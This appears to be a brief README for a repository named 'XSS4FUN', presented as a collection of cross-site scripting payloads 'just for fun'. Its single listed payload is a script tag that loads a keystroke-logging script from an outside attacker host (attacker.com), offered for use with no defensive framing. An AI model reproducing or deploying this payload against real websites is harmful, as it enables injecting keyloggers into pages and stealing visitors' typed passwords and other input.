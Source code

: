 # XSS4FUN
XSS just for fun.

#Useful payloads:
  **<script src=https://attacker.com/keystroke.js></script>**
